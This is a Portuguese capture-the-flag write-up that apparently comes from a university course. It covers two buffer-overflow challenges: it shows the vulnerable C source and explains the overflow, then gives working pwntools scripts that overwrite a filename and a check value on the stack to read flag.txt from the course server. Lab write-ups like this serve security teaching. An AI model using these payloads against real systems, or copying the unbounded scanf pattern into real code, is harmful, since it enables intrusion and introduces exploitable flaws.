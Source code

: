 # CTF 3 - Buffer Overflow

## Desafio 1

> No primeiro desafio, temos um programa ```main.c``` com o seguinte código:

```c
#include <stdio.h>
#include <stdlib.h>

int main() {
    char meme_file[8] = "mem.txt\0";
    char buffer[32];

    printf("Try to unlock the flag.\n");
    printf("Show me what you got:");
    fflush(stdout);
    scanf("%40s", &buffer);

    printf("Echo %s\n", buffer);

    printf("I like what you got!\n");
    
    FILE *fd = fopen(meme_file,"r");
    
    while(1){
        if(fd != NULL && fgets(buffer, 32, fd) != NULL) {
            printf("%s", buffer);
        } else {
            break;
        }
    }


    fflush(stdout);
    
    return 0;
}
```

> 1. Existe algum ficheiro que é aberto e lido pelo programa?

<br>

> 1. O programa vai abrir o ficheiro `mem.txt` apartir da função `fopen()` e depois vai ler os conteúdos desse ficheiro com a função `fgets()`.

<br>

> 2. Existe alguma forma de controlar o ficheiro que é aberto?

<br>

> 2. Sim, existe uma vulnerabilidade que permite controlar o ficheiro que é aberto. O nome do ficheiro a ser aberto é "mem.txt". No entanto, antes de abrir o ficheiro, o programa lê um _buffer_ de entrada de 40 _bytes_ com ```scanf()``` e armazena-o em `buffer`. Isso significa que, através de um _buffer overflow_, podemos controlar o nome do ficheiro que é aberto, substituindo o conteúdo do _buffer_ com o nome do ficheiro desejado.

<br>

> 3. Existe algum buffer-overflow? Se sim, o que é que podes fazer?

<br>

> 3. Sim, temos um _buffer_ de 32 _bytes_, mas estamos a ler 40 _bytes_ no ```scanf()```, o que resulta numa vulnerabilidade de _buffer overflow_ . Portanto, só precisamos de inserir 32 caracteres, seguidos pelo nome do ficheiro que contém a _flag_ (```flag.txt```) e assim obtemos a _flag_ para este desafio.

<br>

> Com essas informações, alteramos o ```exploit-example.py``` da seguinte forma:

```python
#!/usr/bin/python3
from pwn import *

DEBUG = False

if DEBUG:
    r = process('./program')
else:
    r = remote('ctf-fsi.fe.up.pt', 4003)

r.recvuntil(b":")
r.sendline(b"zzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzflag.txt\0")
r.interactive()
```

> Correndo este este _script_ com ```python3 exploit-example.py``` no terminal é nos _outputted_ a _flag_ deste desafio (figura abaixo).

![flag](images/ctf3/desafio1/flag.png)


## Desafio 2

> No segundo desafio, temos um programa ```main.c``` com o seguinte código:

```c
#include <stdio.h>
#include <stdlib.h>

int main() {
    char meme_file[9] = "mem.txt\0\0";
    char val[4] = "\xef\xbe\xad\xde";
    char buffer[32];

    printf("Try to unlock the flag.\n");
    printf("Show me what you got:");
    fflush(stdout);
    scanf("%45s", &buffer);
    if(*(int*)val == 0xfefc2324) {
        printf("I like what you got!\n");
        
        FILE *fd = fopen(meme_file,"r");
        
        while(1){
            if(fd != NULL && fgets(buffer, 32, fd) != NULL) {
                printf("%s", buffer);
            } else {
                break;
            }
        }
    } else {
        printf("You gave me this %s and the value was %p. Disqualified!\n", meme_file, *(long*)val);
    }

    fflush(stdout);
    
    return 0;
}
```

> 1. Que alterações foram feitas?

<br>

> 1. Na segunda versão, foram adicionados dois caracteres nulos no final da _string_ `meme_file`, e um novo `if` foi introduzido para verificar se a variável `val` é igual a `0xfefc2324` antes de continuar o que fazia no programa anterior ou dar print a uma mensagem de desqualificação.

<br>

> 2. Mitigam na totalidade o problema?

<br>

> 2. As alterações na segunda versão mitigam parcialmente o problema, uma vez que introduzem uma nova condição, mas ainda é possível contornar esta nova versão se a variável `val` for ajustada para o valor correto (feito no _script_ em _python_ abaixo).

<br>

> 3. É possível ultrapassar a mitigação usando uma técnica similar à que foi utilizada anteriormente?

<br>

> 3. É possível ultrapassar a mitigação na segunda versão usando uma técnica similar à que foi utilizada anteriormente. Primeiro inserimos 32 caracteres (de maneira igual ao que fizemos no desafio anterior), de seguida inserimos o valor de `val` (`\x24\x23\xfc\xfe` (tem de ser escrito ao contrário porque o sistema é _little endian_)) seguido do nome do ficheiro (`flag.txt`), e desta maneira conseguimos obter a _flag_. 

<br>

> Com essas informações, alteramos o ```exploit-example.py``` da seguinte forma:

```python
#!/usr/bin/python3
from pwn import *

DEBUG = False

if DEBUG:
    r = process('./program')
else:
    r = remote('ctf-fsi.fe.up.pt', 4000)

r.recvuntil(b":")
r.sendline(b"zzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzz\x24\x23\xfc\xfeflag.txt\0")
r.interactive()
```

> Correndo este este _script_ com ```python3 exploit-example.py``` no terminal é nos _outputted_ a _flag_ deste desafio (figura abaixo).

![flag](images/ctf3/desafio2/flag.png)




